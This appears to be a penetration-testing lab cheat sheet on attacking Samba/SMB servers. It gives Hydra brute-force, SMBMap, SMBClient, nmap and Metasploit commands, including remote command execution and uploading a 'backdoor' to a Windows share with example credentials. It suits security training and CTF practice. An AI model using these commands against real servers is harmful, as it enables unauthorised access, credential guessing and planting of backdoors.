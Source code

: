 # SAMBA

# Explanation

- SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).

- SAMBA is the Linux implementation of SMB (Server Message Block), and allows Windows systems to access Linux shares and devices.

- SBM uses port 445 (TCP). However, originally, SBM ran on top of NetBIOS using port 139.

- SAMBA utilizes username and password authentication in order to obtain access to the server or a network share.

- We can perform a brute-force attack on the SAMBA server in order to obtain legitimate credentials.

- After obtaining legitimate credentials, we can use a utility called SMBMap in order to enumerate SAMBA share drives, list the contents of the shares as well as download files and execute remote commands on the target.

- We can also utilize a tool called SMBClient. SMBClient is a client that is part of the SAMBA software suite. It communicates with a LAN Manager server, offering an interface similar to that of the ftp program. It can be used to download files from the server to the local machine, upload files from the local machine to the server as well as retrieve directory information from the server.

# SAMBA Brute force attack

```
hydra -L admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <target> smb
```

# SMBmap

```
smbmap -u administrator -p smbserver_771 -H <target>
smbmap -u administrator -p smbserver_771 -d . -H <target>
smbmap -u administrator -p smbserver_771 -L -H <target>
smbmap -u administrator -p smbserver_771 -r 'C$' -H <target>
smbmap -u administrator -p smbserver_771 -x 'ipconfig' -H <target>
smbmap -u administrator -p smbserver_771 --upload '/root/backdoor' 'C$\backdoor' -H <target>
smbmap -u administrator -p smbserver_771 --download 'C$\flag.txt' -H <target>
```

# SMBClient

```
smbclient -L -U admin <target> 
smbclient -L -N <target>
```

# NMAP

```
nmap --script=smb-enum-sessions --script-args smbusername=administrator,smbpassword=smbserver_771 -p445 <target>
```

# Metasploit Framework

```
msf6 > use auxiliary/scanner/smb/pipe_auditor
```